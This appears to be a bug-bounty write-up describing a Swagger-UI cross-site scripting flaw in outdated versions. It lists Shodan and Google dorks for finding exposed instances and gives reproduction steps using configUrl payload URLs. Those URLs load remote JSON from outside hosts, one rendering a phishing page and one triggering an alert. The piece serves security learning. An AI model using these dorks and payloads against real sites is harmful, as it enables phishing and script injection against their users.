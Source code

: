 ```yaml
---
title: "My first Valid Finding | Unveiling Cross-Site Scripting in Swagger-ui"
date: 2023-10-30
draft: false
series: "Bug Hunting"
tags: ["bug bounty hunting", "write-up"]
---
```


---

السَّلَامُ عَلَيْكُمْ و رحمة الله وبركاته

peace be upan you ! : 💐

Welcome to my first write-up 📝, where I share the exciting tale of my discovery and reporting of Swagger-UI vuln app and how i was able to exploit it!

so, lets go on and start with a short intro about the vulnerablity!

## Swagger-UI’s XSS :

Swagger-UI, a popular tool for designing, building, and documenting APIs, provides a user-friendly interface for developers to explore and interact with API endpoints. However, like any web application, Swagger-UI is not immune to security vulnerabilities.
and The root cause is that Swagger-UI allows users to provide a URL for an API specification, such as a YAML or JSON file in outdated version of DomPurify, an XML sanitizer library for HTML, MathML, and SVG.To view and render them, you add a query parameter. It would be possible to trigger an XSS and html injection by loading a malicious!!

- for more about this vuln, please check the References !

### The Story Unfolds: The Journey Begins ✨ !!

so During my 🔎 of the Swagger-ui application, that I found via shodan by using specific Dorks! Here are a few dorks that you can use to search in Shodan for Swagger-UI:

- Remediation : Swagger UI versions affected with the XSS: >=3.14.1 < 3.38.0

```
"Swagger-UI"
"Swagger-UI title:Swagger UI"
"Swagger-UI port:80"
"Swagger-UI http.component:swagger-ui"
"Swagger-UI http.favicon.hash:-116323821"

```

also u can use Google Dorks :

```
site:example.com intitle:"Swagger UI"
inurl:"swagger-ui.html"
intitle:"index of" swagger-ui
intext:"Powered by Swagger UI"
site:github.com inurl:swagger-ui
```

so ! I stumbled upon a potential XSS vulnerability. By appending a specific payloads to the Swagger UI URL, I was able to inject it! then after Searching more I found an payload for rendering an phishing page as json file!

. The steps to reproduce the bug were as follows:

- Visit the Swagger UI URL:

```
 https://127.0.0.1/swagger/index.html.
```

- Append the following payload to the URL _ I used payload for rendering phishing page : as shown below _:

```
?configUrl=https://tearful-earth.surge.sh/test.json.
```

- The resulting URL should be:

```
 https://127.0.0.1/swagger/index.html?configUrl=https://tearful-earth.surge.sh/test.json.
```

![image tooltip here](https://github.com/khawla-abdulsattar/poison/blob/main/static/images/dhey.PNG?raw=true)

- note : you can also append this payload to the end of the Swagger UI URL! u will see an alert dialog

```
?configUrl=https://xss.smarpo.com/test.json

```

---

As I conclude this article, I hope that my journey has ignited a spark within you ⚡: .
Whether you're a security professional or just starting your exploration of the web security realm, remember that every bug, no matter how small or seemingly insignificant, has the potential to make a significant impact.

###### thanks fot reading 💜👾

## References :

- https://blog.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
- https://portswigger.net/daily-swig/widespread-swagger-ui-library-vulnerability-leads-to-dom-xss-attacks
